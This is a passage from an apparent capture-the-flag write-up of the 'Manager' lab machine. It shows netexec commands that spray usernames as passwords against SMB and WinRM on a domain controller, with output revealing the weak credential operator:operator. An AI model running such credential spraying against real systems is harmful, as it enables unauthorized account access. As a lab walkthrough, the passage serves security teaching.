 It finds three, administrator, guest, and operator. I can use some other wordlists and find a handful more, but the important one is operator.

## Shell as raven

### Get Operator Password

I can do a quick check to see if any of the usernames I’ve collected use their username as their password. With `netexec`, I’ll give the same list for `-u` and `-p`, and the `--no-brute` flag, which means instead of tying each username with each password, it just tries the first username with the first password, the second with the second, and so on. I like the `--continue-on-success` flag to check if there are more then one set of valid creds here:

```

oxdf@hacky$ netexec smb manager.htb -u users -p users --continue-on-success --no-brute
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 

```

The operator account uses the password operator! It doesn’t work over WinRM, so no shell from here:

```

oxdf@hacky$ netexec winrm manager.htb -u operator -p operator
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [-] manager.htb\operator:operator

```

### Enumeration as operator
